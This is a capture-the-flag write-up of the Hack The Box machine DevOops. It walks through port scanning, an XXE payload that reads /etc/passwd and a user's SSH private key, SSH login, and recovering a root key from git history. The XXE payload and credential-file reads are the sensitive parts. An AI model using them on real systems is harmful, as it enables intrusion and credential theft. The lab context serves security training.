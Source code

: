 ```yaml
---
slug: devoops-writeup/
title: DevOops Writeup
date: 2018-10-16
category: attacks
subtitle: How to resolve HTB DevOops
tags: cybersecurity, exploit, vulnerability, web, training
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/cover_sebbts.webp
alt: Developers programming in an office
description: In this article, we present how to exploit the vulnerabilities of DevOops, a Linux Hack the Box machine, and how to gain access and obtain the root flag.
keywords: HTB, Security, Hack The Box, Web, Writeup, DevOops, Pentesting, Ethical Hacking
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, Security+
about2: '"Be formless, shapeless like water" Bruce Lee'
source: https://unsplash.com/photos/QckxruozjRg
---
```


## Scanning Phase

First, we check the IP of the
[DevOops](https://www.hackthebox.eu/home/machines/profile/140) machine
and try a `ping` to see if we have access.

<div class="imgblock">

![ip](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/devoops2_zvgbqd.webp)

</div>

<div class="imgblock">

![ping](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/ping_s9mmpa.webp)

</div>

Then, we scan the ports with `nmap`. In this case, we’re going to use
basic `nmap`.

**port scannning.**

``` bash
nmap 10.10.10.91
```

And, we see that ports `5000` and `22` are open.

<div class="imgblock">

![ip](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/nmap_p4mnpl.webp)

</div>

Then, we try to access port `5000` with our browser, and it opens a web
page with the contents of some feed.

<div class="imgblock">

![web-page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/web_dudfix.webp)

</div>

As we can see on this page, there is nothing more than an image there.
So, we’re going to scan the whole web server with `dirbuster` to see if
we can access something useful.

**Searching folders in machine.**

``` bash
dirb http://10.10.10.91:5000
```

<div class="imgblock">

![dirb-scan](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/dirb_cmg544.webp)

</div>

<div class="imgblock">

![upload-page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330846/blog/devoops-writeup/upload-page_ycfqze.webp)

</div>

## Getting user

In the last step, we got an upload page, because the page says we can
upload `XML` files with the tags Author, Subject and Content. Then, we
try to upload the following `XML` file.

**xml.**

``` xml
<post>
<Author>johnarmas</Author>
<Subject>test</Subject>
<heading>Reminder</heading>
<Content>test</Content>
</post>
```

The response of the server is:

<div class="imgblock">

![upload-ok](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330847/blog/devoops-writeup/upload-ok_cknf6r.webp)

</div>

So, because there is no other functionality on the server, we can
suspect that there is an `XML External Entity` (`XXE`) injection. This
is a type of attack against an application that parses `XML` input. This
may lead to, among other issues, the disclosure of confidential data,
and denial of service. We can exploit it to retrieve the contents of
files by uploading a malicious `XML` file.

To test this we can upload the following file:

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<post>
<Author>johnarmas</Author>
<Subject>hola</Subject>
<heading>Reminder</heading>
<Content>&xxe;</Content>
</post>
```

With this, we can retrieve the content of `/etc/passwd` from the web
server and test for `XXE` injection. We can do it by manually uploading
the file or using a proxy like `burpsuite` and sending the request to
the repeater, like in this example:

<div class="imgblock">

![upload-passwd](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/upload-passwd_nji7ye.webp)

</div>

What to do next? When we uploaded our first `XML` file, we could see
from the response that the file is stored on `/home/roosa/deploy/src`.
With this information, we could retrieve the user flag. Usually, this
file is on `/home/roosa/user.txt`, and modifying our `XXE` we could do
it, but what about remote code execution?

In our scans, we saw port `22` is open, so maybe we could retrieve a
private key to access the server with `ssh`.

In general, the ssh keys are named `id_rsa`, so what happens if we try
to obtain the file `/home/roosa/.ssh/id_rsa`?

<div class="imgblock">

![private-key](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/private-key_awn4ee.webp)

</div>

We save the content in a file and change the permission to `0600` to be
able to use it with `ssh` without trouble.

We save the content in a file and change the permissions to `0600` to be
able to use it with `ssh` without trouble.

I like `nano`, but it could be with any other text editor. Then, we
access the server with those credentials.

**Access to the server.**

``` bash
nano roosekey
chmod 0600 roosekey
ssh -i roosekey roosa@10.10.10.91
```

<div class="imgblock">

![ssh-access](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/ssh-access_mqawzd.webp)

</div>

## Enumerating the server

When we access the server, the first thing we should do is to check the
files and the folders that we can access.

On this server, we can see that there is a folder named `deploy`. Let’s
see what’s in there.

<div class="imgblock">

![enum-folder](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330846/blog/devoops-writeup/enum-folder_ophatw.webp)

</div>

There is another private key, but when we try to elevate it as `root`,
we get an error. So, what could be happening? Let’s see what commands
our user has typed.

<div class="imgblock">

![history](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/history_kyutfg.webp)

</div>

There we can see that our user has done a `ssh` to `localhost` with the
user `git`. Let’s try the same and see what happens.

<div class="imgblock">

![ssh-git](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/ssh-git_ulzwsx.webp)

</div>

## Getting root

We do the same with our user `git` to check the history. There is a
command to a route that we didn’t know that is `/srv/git/`. We access
another folder named `blogfeed.git` and check what is in there.

<div class="imgblock">

![enum-folder-git](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/enum-folder-git_ltxppe.webp)

</div>

It looks like a normal `git` folder, but there is no code in it. Let’s
see what is on their log with:

**Repository log.**

``` bash
git log
```

<div class="imgblock">

![git-log](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/git-log_hysxnl.webp)

</div>

Surprise, surprise…​

In their log is an authentication key, but to see its content we need to
use `git log` with more verbosity

**Repository log, verbose.**

``` bash
git log -p -8
```

<div class="imgblock">

![auth-key](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330847/blog/devoops-writeup/auth-key_kdkkca.webp)

</div>

When we scroll down, we can see the authentication key. We need to copy
it, remove the trailing plus symbols (only the first one) and then, do
the same with the first key we encounter.

We don’t know which user’s key it is, but we can try to find the `root`
user. It won’t hurt anyone.

<div class="imgblock">

![root](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330847/blog/devoops-writeup/root_am4zjl.webp)

</div>

The key is, in fact, the user’s `root`. So, we can retrieve our `root`
flag, and the challenge is completed.

On this challenge `XXE`, we learned to always check the `history` when
we gain access to a machine as a user, and to check `git` repositories
for credentials.
